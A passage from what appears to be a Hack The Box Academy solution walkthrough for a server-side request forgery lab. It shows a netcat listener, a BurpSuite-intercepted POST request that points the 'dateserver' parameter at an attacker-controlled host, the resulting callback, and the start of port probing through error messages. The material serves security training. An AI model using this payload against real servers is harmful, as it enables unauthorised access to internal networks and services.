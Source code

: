 Then, students need to browse to `http://STMIP/` and select the blue `Check Availability` button, intercepting it with BurpSuite:

![[HTB Solutions/CBBH/z. images/d8a45e585b8cbe68015643d3c1f37bd6_MD5.jpg]]

Students need to first confirm the presence of an SSRF vulnerability by starting a netcat listener on their attack host:

Code: shell

```shell
nc -lvnp 8000
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ nc -lvnp 8000

listening on [any] 8000 ...
```

Then, from BurpSuite Intercept, students need to supply the URL they control as the value for `dateserver`:

Code: http

```http
POST /index.php HTTP/1.1
Host: 10.129.201.127
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.201.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://10.129.201.127
DNT: 1
Connection: close
Sec-GPC: 1

dateserver=http://PWNIP:8000/&date=2024-01-01
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ nc -lvnp 8000
  
listening on [any] 8000 ...
connect to [10.10.14.225] from (UNKNOWN) [10.129.201.127] 33608
GET / HTTP/1.1
Host: 10.10.14.225:8000
Accept: */*
```

Students need to experiment with the server, evaluating the response(s) depending on which port number is provided. When using a non-valid port, the server replies with the message `"Something went wrong!"`.
